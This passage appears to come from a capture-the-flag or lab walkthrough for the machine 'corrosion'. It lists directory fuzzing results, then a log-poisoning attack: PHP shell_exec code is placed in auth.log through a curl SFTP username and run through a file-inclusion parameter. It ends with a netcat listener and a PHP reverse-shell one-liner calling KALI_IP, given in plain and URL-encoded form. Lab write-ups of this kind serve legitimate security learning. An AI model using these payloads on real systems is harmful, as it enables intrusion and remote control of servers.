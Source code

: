 ```bash
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

file                    [Status: 200, Size: 2832, Words: 38, Lines: 49, Duration: 3ms]
:: Progress: [4614/4614] :: Job [1/1] :: 80 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

**Send a bit of PHP shell\_exec code to the auth.log for [[Log Poisoning]]. Use curl to submit the code as the SSH username for an SFTP login. Needed to use curl SFTP instead of the built in SSH client in kali because the client was not allowing special characters as a username:**

```bash
└─$ curl -si -u '<?php echo shell_exec($_GET['cmd']);?>' sftp://192.168.5.119/test -k

Enter host password for user '<?php echo shell_exec($_GET[cmd])':
```

>[!note] 
>The *test* folder part of  `sftp://192.168.5.119/test`, is just a placeholder for SFTP, you can use anything


**We can now issue shell commands using curl as follows (note the command output is shown where the SSH username would be shown in the auth log):**

```bash
└─$ curl -si http://192.168.5.119/blog-post/archives/randylogs.php?file=/var/log/auth.log&cmd=id

...

Aug  7 19:19:20 corrosion sshd[3498]: Failed password for invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data) from 192.168.9.2 port 57747 ssh2

Aug  7 19:19:22 corrosion sshd[3498]: Connection closed by invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Setup *netcat* listening on kali:**

```bash
└─$ nc -nvlp 4242
```

**PHP command line [[reverse shell]] that we will use, change *KALI\_IP*:**

> php -r '$sock=fsockopen("KALI\_IP",4242);exec("/bin/sh -i <&3 >&3 2>&3");'

**Encode command at [http://www.urlencoder.org](http://www.urlencoder.org/?ref=rootandbeer.com), example:**

> php%20-r%20%27%24sock%3Dfsockopen%28%22KALI\_IP%22%2C4242%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
